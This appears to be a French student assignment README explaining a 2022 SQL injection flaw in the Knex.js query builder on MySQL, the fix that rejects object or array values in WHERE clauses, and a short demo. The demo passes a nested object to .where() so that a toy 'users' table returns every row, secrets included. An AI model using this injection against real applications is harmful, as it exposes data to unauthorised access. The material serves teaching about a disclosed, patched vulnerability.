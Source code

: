 # TP-CVE
# William - M2I M2 IASI

## 1 - Trouvez une CVE sortie en 2022 (score ≥ 7) 🔎
Le package Knex.JS présente une vulnérabilité limité d’injection SQL pouvant être exploitée pour ignorer la clause WHERE d’une requête SQL.
Cette vulnérabilité fonctionne seulement sur des bases de données MySQL et a été corrigée dans la version 2.4.0. Elle affecte des milliers de packages NodeJS utilisant Knex pour construire des requêtes SQL qui n'excluent pas les paramètres ayant pour type Object et Array.

https://github.com/advisories/GHSA-4jv9-3563-23j3

![](https://i.imgur.com/KlWHWpf.png)

## 2 - Trouvez sur github (ou ailleurs) le fix (commit) de la CVE et expliquez ce fix 🔨

https://github.com/knex/knex/pull/5417

```
whereBasic(statement) {
     assert(
       !isPlainObjectOrArray(statement.value),
       'The values in where clause must not be object or array.'
     );

     return super.whereBasic(statement);
   }

   whereRaw(statement) {
     assert(
       isEmpty(statement.value.bindings) ||
         !Object.values(statement.value.bindings).some(isPlainObjectOrArray),
       'The values in where clause must not be object or array.'
     );

     return super.whereRaw(statement);
   }
```

Le fix bloque tous les paramètres insérés dans la clause `WHERE` d’une requête qui sont de type `Array` ou `Object`, en utilisant les packages [loadash](https://www.npmjs.com/package/lodash) et [assert](https://www.npmjs.com/package/assert), permettant ainsi d’éviter une injection dans les paramètres.

## 3 – Proposez une démo d’exploitation de la CVE  🖥️
Prenons une table `users` ayant pour colonnes: `id`, `name` et `secret` avec deux utilisateurs: "admin" et "guest".

| id | name  | secret             |
| -- |-------|--------------------|
| 1  | admin | super confidentiel |
| 2  | guest | salut              |

```
knex('users')
    .select()
    .where({ secret: { "name": "admin" } })
    .then(res => console.log(res))
```
En exécutant le code ci-dessus, Knex va générer la requête SQL suivante: ```select * from `users` where `secret` = `name` = 'admin'```.

Avec cette syntaxe, MySQL va ignorer la clause `WHERE` et exécuter la requête suivante: ```select * from `users` ``` et donc retourner toutes les lignes de la table `users`:

```
[
  RowDataPacket { id: 1, name: 'admin', secret: 'super confidentiel' },
  RowDataPacket { id: 2, name: 'guest', secret: 'salut' }
]
```

Le code utilisé pour générer la base de données et reproduire la CVE se trouve dans le fichier [index.js](./index.js).